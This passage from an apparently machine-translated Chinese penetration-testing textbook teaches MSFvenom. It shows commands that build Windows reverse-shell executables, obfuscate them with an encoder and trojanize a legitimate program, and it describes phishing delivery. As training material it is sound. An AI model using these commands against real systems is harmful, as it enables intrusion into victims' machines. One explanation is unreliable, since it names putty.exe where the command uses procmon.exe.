前面的哈希是从 Metasploitable 3 虚拟机转储的。保留这些，因为您将在[第 6 章](06.html)*中再次使用它们，了解密码攻击。*我将它们保存为`Meta3-hashes.txt`。

MeterMeter 有一长串的功能。在执行各种渗透测试时，您将在各种场景中利用不同的功能。

# 使用 MSFvenom

在本章前面，我们重点介绍了使用 Metasploit 框架来利用目标系统上的漏洞并控制它。使用 MSFvenom，您的目标不是依赖系统中的漏洞，而是利用所有组织中最常见的安全问题：用户。这是一个永远无法完全修补的漏洞

MSFvenom 基本上用于构建外壳代码。外壳代码可以定义为在运行时向攻击者创建反向远程外壳的代码

外壳代码可以通过将其插入到文件中，然后将该文件发送到目标来使用。正如我们在[第 4 章](04.html)*【掌握社会工程】中所学到的，这可以通过网络钓鱼活动来实现。文件运行后，您可以远程访问目标计算机。现实世界的攻击者也利用了这种技术。外壳代码不仅限于文件，还可以插入到软件中。这是常见的恶意应用，您可以在移动设备的应用商店中找到。远离网络钓鱼和软件，外壳代码可以嵌入已被破坏的网站。因此，当有人浏览网站时，恶意软件可能会加载到他们的机器上，从而使其受到危害。*

外壳代码可以通过`msfpayload`和`msfencode`命令在早期版本的 Metasploit 中构建。这些服务现已与`msfvenom`实用程序合并并被替换。如果您习惯了旧工具，`msfvenom`不是问题，因为修改很少。

使用 MSFvenom 有以下优点：

*   只有一个工具可以生成跨平台外壳代码。
*   命令行选项是标准化的。
*   创建外壳代码时速度的提高使您能够将应用用作模板。

要使用 MSFvenom，您需要在 Kali Linux 的终端窗口中输入`msfvenom`命令。应用将向您提供可用选项的列表。以下是一些最重要的选择：

*   `-p`用于选择 Metasploit 有效载荷，有多个有效载荷可用；它们支持 Windows、Linux、Mac 等。定义有效负载的示例如下所示：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL IP> LPORT=<LOCAL PORT> -f exe -o shell.exe
```

在本例中，我们使用的是`windows/meterpreter/reverse_tcp`有效负载，定义了本地主机和 IP 地址。使用`-f`选项将输出格式定义为`.exe`，使用`-o`选项将输出文件保存为`shell.exe`。

*   `-e`用于选择编码器。编码器是一种可用于重新编码有效载荷的算法。这用于混淆有效负载的意图。您可以使用`msfvenom -l encoders`命令找到编码器列表。**使用编码器的示例如下：**

 **```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL IP> LPORT=<LOCAL PORT> -e x86/shikata_ga_nai -i 3 -f exe -o payload.exe
```

在本例中，选择的编码器为`shikata_ga_nai`，使用`-i`**选项定义的迭代为`3`。**

 ***   `-x`用于定义自定义可执行文件作为模板使用。使用此选项，您可以获取合法文件并创建其恶意版本，从而授予您远程 shell。这方面的一个例子如下：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL IP> LPORT=<LOCAL PORT> -x procmon.exe -f exe -o evilprocmon.exe
```

在本例中，`putty.exe`被用作模板来创建名为`evilputty.exe`的恶意版本。

# 总结

在本章中，我们研究了 Metasploit 框架。我们定义了它可以用于什么，并探讨了包含的各种类型的模块。我们完成了 Metasploit 的一些初始任务，并研究了在哪里可以获得新模块。利用 Metasploit 的灵活性，我们从其他来源（如 Nmap 和 Nessus）导入数据，并探索 Metasploit 的核心组件。最后，我们研究了在外壳代码的创建中使用 MSFvenom。

现在，您可以执行 Metasploit 框架的初始配置。您已经学习了如何执行一些初始设置任务，例如更新 Metasploit 框架并将其链接到数据库。您已经掌握了如何通过使用工作区和从 Nmap 和 Nessus 等工具导入数据来增强 Metasploit 框架内体验的技能。您已经了解了从何处获取新模块以及如何安装它们。您已经了解了 Metasploit 的主要选项以及 Shell 和有效载荷之间的区别。最后，在本章中，您已经掌握了如何使用 MSFvenom 利用外壳代码的技巧。

在下一章（[第 6 章](06.html)、*理解密码攻击*）中，我们将了解各种类型的密码攻击以及从何处获取密码列表。我们将利用 Kali Linux 中的内置工具，并执行一些密码破解和凭据转储。

# 问题

1.  说出 Metasploit 框架版本 5 中引入的一个关键特性。
2.  至少命名 Metasploit 框架中存在的三个模块。
3.  说出两个可以导入 Metasploit 框架的外部数据源。
4.  指定至少两个可以下载其他模块的公共存储库。
5.  绑定 shell 和反向 shell 之间有什么区别？*****************